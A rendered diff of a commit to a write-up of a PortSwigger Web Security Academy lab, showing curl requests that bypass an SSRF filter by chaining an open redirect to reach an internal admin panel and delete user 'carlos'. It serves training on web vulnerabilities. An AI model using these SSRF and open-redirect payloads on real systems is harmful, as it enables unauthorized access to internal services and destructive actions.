

Before and after one commit to echoesofwhoami/CurlSwiggerLabs, a Markdown page: docs/ssrf-filter-bypass-open-redirection.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/docs/ssrf-filter-bypass-open-redirection.md
+++ b/docs/ssrf-filter-bypass-open-redirection.md
@@ -80,18 +129,56 @@ curl -s "https://0a5c008e0345538c8358963400c600ae.web-security-academy.net/produ
   -H "Content-Type: application/x-www-form-urlencoded" \
-  -d "stockApi=/product/stock/check?productId=1&storeId=1"
+  -d "stockApi=/product/stock/check?productId=1&storeId=1" | cat
 ```
 
-This works as expected and returns stock information. Now let's try to exploit the SSRF vulnerability directly by attempting to access the internal admin interface:
+> **Command breakdown**: \
+`-H "Content-Type: application/x-www-form-urlencoded"` = set content type header to application/x-www-form-urlencoded to emulate the javascript request \
+`-d "stockApi=/product/stock/check?productId=1&storeId=1"` = set the body of the request to the form data, this will automatically set the http method to POST \
+
+This returns:
+
+```Response: "Missing parameter"```
+
+and made me realize that this endpoint is calling to another one internally and ```&storeId=1``` is not getting added as a parameter to the second request but being parsed in the first one so thats why we get "Missing parameter".
+
+I'll validate my suspicions by sending a GET request directly to ```/product/stock/check?productId=1&storeId=1```
 
 ```bash
-curl -s "https://0a5c008e0345538c8358963400c600ae.web-security-academy.net/product/stock" \
-  -H "Content-Type: application/x-www-form-urlencoded" \
-  -d "stockApi=http://192.168.0.12:8080/admin"
+curl -s "https://<lab-url>.web-security-academy.net/product/stock/check?productId=1&storeId=1" | cat
 ```
 
-Response: `"Invalid external stock check url 'Invalid URL'"`
+```Response: "414 units"```
 
-As expected, the SSRF is blocked. The application has a filter that validates the `stockApi` parameter and prevents direct access to external URLs, particularly internal network addresses.
+Now to be absoutely sure about it I will reproduce the same error by not sending the parameter storeId
+
+```bash
+curl -s "https://<lab-url>.web-security-academy.net/product/stock/check?productId=1" | cat
+```
+
+```Response: "Missing parameter"```
+
+So to make it work we have to encode the amperstamp on the first request
+
+```bash
+curl -s "https://<lab-url>.web-security-academy.net/product/stock" \
+  -H "Content-Type: application/x-www-form-urlencoded" \
+  -d "stockApi=/product/stock/check?productId=1%26storeId=1" | cat
+```
+
+```Response: "414 units"```
+
+This confirms a SSRF vector, the request is being called from the stockApi parameter.
+
+Now let's try to exploit the SSRF vulnerability directly by attempting to access the internal admin interface:
+
+```bash
+curl -s "https://<lab-url>.web-security-academy.net/product/stock" \
+  -H "Content-Type: application/x-www-form-urlencoded" \
+  -d "stockApi=http://192.168.0.12:8080/admin" | cat
+```
+
+```Response: `"Invalid external stock check url 'Invalid URL'"```
+
+As expected by the name of this lab, the SSRF is blocked. The application has a filter that validates the `stockApi` parameter and prevents direct access to external URLs, particularly internal network addresses.
 
 Now let's test the open redirection vulnerability we found in the `path` parameter:
 
@@ -156,5 +244,5 @@ curl -s "https://0a5c008e0345538c8358963400c600ae.web-security-academy.net/produ
   -H "Content-Type: application/x-www-form-urlencoded" \
-  -d "stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin/delete?username=carlos"
+  -d "stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin/delete?username=carlos" | cat
 ```
 
 Response:
````
Also changed, not shown: other parts of docs/ssrf-filter-bypass-open-redirection.md (+67 -17 lines), README.md (+0 -1 lines), screenshots/ssrf-filter-bypass-open-redirection/01_home_page.png, screenshots/ssrf-filter-bypass-open-redirection/02_product_detail.png (deleted), screenshots/ssrf-filter-bypass-open-redirection/03_product_detail_page.png (deleted), screenshots/ssrf-filter-bypass-open-redirection/05_admin_panel.png.
